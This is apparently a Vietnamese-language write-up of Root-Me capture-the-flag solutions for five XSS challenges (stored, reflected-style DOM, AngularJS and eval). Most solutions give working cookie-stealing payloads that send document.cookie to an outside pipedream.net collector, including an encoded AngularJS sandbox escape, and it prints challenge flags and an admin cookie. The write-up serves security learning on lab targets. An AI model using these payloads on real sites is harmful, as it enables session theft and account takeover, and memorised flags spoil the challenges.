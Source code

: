 # Trần Mạnh Huy

* [Chall 1:	XSS - Stored 1](#chall-1-xss---stored-1)
* [Chall 2: XSS - Stored 2](#chall-2-xss---stored-2)
* [Chall 3: XSS DOM Based - Introduction](#chall-3-xss-dom-based---introduction)
* [Chall 4: XSS DOM Based - AngularJS](#chall-4-xss-dom-based---angularjs)
* [Chall 5: XSS DOM Based - Eval](#chall-5-xss-dom-based---eval)
* [Chall 6: XSS - Reflected](#chall-6-xss---reflected)
* [Chall 7: XSS DOM Based - Filters Bypass](#chall-7-xss-dom-based---filters-bypass)
*
*


## Chall 1: Xss - Stored 1

```
Statement
Steal the administrator session cookie and use it to validate this chall.

```

Đây là 1 chall đơn giản về stored xss. Có 2 phần nhập title và message, gửi abcd ở cả 2 rồi check source bên burpsuite.
Có vẻ tiêm được script nên test luôn: <script>alert(1)</script>, và alert được, vậy thì triển tiếp thôi.

![](https://github.com/manhhuy2002/hello-world/blob/main/ssrf_rootme/xss_02.jpg)


Ý tưởng là ta sẽ lưu scipt cướp cookie ở form message và ngồi đợi thằng admin đến đọc cái message đó và bay màu.

Truyền payload vào message để lấy cookie: <script>document.location="https://eo7xxasp6lhfvaj.m.pipedream.net/?c=".cocat(documemt.cookie)</script>

Ở đây dùng đường dẫn trên pipedream kết hợp với concat để nối thực hiện chuỗi, được server trả về kết quả:

![](https://github.com/manhhuy2002/hello-world/blob/main/ssrf_rootme/xss_03.jpg)


> Flag: _ga=GA1.1.73691999.1669083110


## Chall 2: XSS - Stored 2

![](https://github.com/manhhuy2002/hello-world/blob/main/xss_rootme/xss2_01.jpg)

Vẫn như bài trước cho ta 2 phần nhập nhưng thêm 1 số tính năng, và giờ title và message đã bị encode html enities nên kh thực hiện xss được ở đây.

Nếu để ý kĩ, mình sẽ thấy giá trị cookie status=invite đang được hiện thị trên page và không bị fitler html entities. Ta có thể tận dụng ở đây để thực hiện xss

#### Payload: Cookie: status="><script>alert(1)</script>

![](https://github.com/manhhuy2002/hello-world/blob/main/xss_rootme/xss2_04.jpg)

Thực hiện alert thành công, tương tự như bài trước ta gửi payload:

> "><script>document.location="https://eo7xxasp6lhfvaj.m.pipedream.net/?c=".concat(document.cookie)</script>

Ta nhận được cookie trả về :

![](https://github.com/manhhuy2002/hello-world/blob/main/xss_rootme/xss2_03.jpg)

Có được cookie rồi ta ném vào ?section=admin để lấy flag

> COOKIE: status=invite;ADMIN_COOKIE=SY2USDIH78TF3DFU78546TE7F

![](https://github.com/manhhuy2002/hello-world/blob/main/xss_rootme/xss2_04.jpg)

> FLag: E5HKEGyCXQVsYaehaqeJs0AfV

## Chall 3: XSS DOM Based - Introduction

```
Steal the admin’s session cookie.

```
Source:
```
<script>
var random = Math.random() * (99);
var number = '12';
if(random == number) {
    document.getElementById('state').style.color = 'green';
    document.getElementById('state').innerHTML = 'You won this game but you don\'t have the flag ;)';
}
else{
    document.getElementById('state').style.color = 'red';
    document.getElementById('state').innerText = 'Sorry, wrong answer ! The right answer was ' + random;
}
</script>

```

Ở đây ta đang có param number nhận input đầu vào, mình thử 1 số bất kì, và trang nó render như sau:

![](https://github.com/manhhuy2002/hello-world/blob/main/xss_rootme/xss3_01.jpg)

Đây là 1 chall đơn giản để giới thiệu về dom-based nên không có filter gì cả, ta sẽ chèn script mình vào thông qua cái param number và bởi vì nó là dom nên đoạn mã độc được sẽ được thực thi bởi đoạn Javascript phía client mà không cần server xử lý request:

![](https://github.com/manhhuy2002/hello-world/blob/main/xss_rootme/xss3_02.jpg)

Thực hiện alert được rồi thì tấn công thôi:

>Script: '; document.location="https://eo7xxasp6lhfvaj.m.pipedream.net/?c=".concat(document.cookie) ;//

![](https://github.com/manhhuy2002/hello-world/blob/main/xss_rootme/xss3_03.jpg)

Gửi đường dẫn vào phần contact: http://challenge01.root-me.org/web-client/ch32/index.php?number=123%27%3B+document.location%3D%22https%3A%2F%2Feo7xxasp6lhfvaj.m.pipedream.net%2F%3Fc%3D%22.concat%28document.cookie%29+%3B%2F%2F

Ta được flag trả về:  

![](https://github.com/manhhuy2002/hello-world/blob/main/xss_rootme/xss3_04.jpg)

> flag: rootme{XSS_D0M_BaSed_InTr0}


## Chal 4: XSS DOM Based - AngularJS
```
Steal the admin’s session cookie.

```
Đạp vào mắt ta là 2 phần main và contact, 1 cái thì để xss còn cái còn lại là gửi cho con bot rồi. Triển thôi:

![]()

Đầu tiên phải alert được đã, đọc source:

```
   <p id="name_encoded">Result for  abcd:</p>
        <script>
            var name = ' abcd';
            var encoded = '';
            for(let i = 0; i < name.length; i++) {
                encoded += name[i] ^ Math.floor(Math.random() * name.length);
            }
            encoded = Math.abs(encoded ^ Math.floor(Math.random() * name.length));
            document.getElementById('name_encoded').innerText += ' ' + encoded;
        </script>
        
 ```

Cái ta cần bypass ở đây là truyền sao cho vượt qua được giá trị var name, ví dụ thành var name = '' ; alert(1) -- . Nhưng có vẻ ' bị mã hóa rồi.
Ta dùng script sau: 

```
{{x=valueOf.name.constructor.fromCharCode;constructor.constructor(x(97,108,101,114,116,40,49,41))()}}

```
>Reference: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md

![image](https://user-images.githubusercontent.com/104350480/218153267-ba81ca39-fbe3-4094-94a1-51de61b14277.png)

Sau khi alert được ròi thì ta làm tương tự như trên thôi, ta sẽ gửi đường link kèm theo payload xss và khi thằng admin truy cập vào thì payload sẽ được trigger dưới session của admin:

> Payload: 	
http://challenge01.root-me.org/web-client/ch35/?name={{x=valueOf.name.constructor.fromCharCode;constructor.constructor(x(100,111,99,117,109,101,110,116,46,108,111,99,97,116,105,111,110,61,34,104,116,116,112,115,58,47,47,101,111,55,120,120,97,115,112,54,108,104,102,118,97,106,46,109,46,112,105,112,101,100,114,101,97,109,46,110,101,116,47,63,99,61,34,46,99,111,110,99,97,116,40,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41))()}}

Được flag trả về:


![image](https://user-images.githubusercontent.com/104350480/218155614-d3be95db-d5b1-4df7-bcb3-a6e268a5df48.png)

>Flag: rootme{@NGu1@R_J$_1$_C001}

## Chall 5: XSS DOM Based - Eval

```
A bad practice ...
Steal the admin’s session cookie.

```

Tiếp tục là chall về xss, bài này có liên quan đến hàm eval, ta cần nhập 1 phép tính, nếu kh sẽ kh thực hiện được

![image](https://user-images.githubusercontent.com/104350480/218157778-248d5be0-644e-4639-890f-f89f81ae2434.png)

![image](https://user-images.githubusercontent.com/104350480/218158292-9f278129-789a-4dc1-ba15-0082eea0a011.png)

Xem qua source code thì có vẻ ta cần bypass qua hàm eval là xong chall này, ngoài ra kh thể sử dụng () vì đã bị liệt vào blacklist

![image](https://user-images.githubusercontent.com/104350480/218158578-3ebbc272-495d-40f3-8ac6-77c79bcab51f.png)

![image](https://user-images.githubusercontent.com/104350480/218159000-894d3387-bc3e-4591-938f-f50fcfb8993e.png)


Mục tiêu đầu tiên vẫn phải là alert đã, nhưng có 1 cái ta có thể chú ý:

![image](https://user-images.githubusercontent.com/104350480/218159511-3d90e8ec-bd2c-46e1-803e-be32a1c94d8b.png)

Đúng vậy, regex chỉ yêu cầu 1 phép tính là được + - * / giữa 2 số là được, kh dùng được () nên tấn công luôn:

```

Payload: 1+1, document.location="https://eo7xxasp6lhfvaj.m.pipedream.net/?c="+document.cookie 
Gửi qua contact: http://challenge01.root-me.org/web-client/ch34/?calculation=1%2B1%2C+document.location%3D%22https%3A%2F%2Feo7xxasp6lhfvaj.m.pipedream.net%2F%3Fc%3D%22%2Bdocument.cookie

```

![image](https://user-images.githubusercontent.com/104350480/218165627-02281d8d-64fc-4ab1-9c1a-e0b6711aef66.png)

> Flag: rootme{Eval_Is_DangER0us}
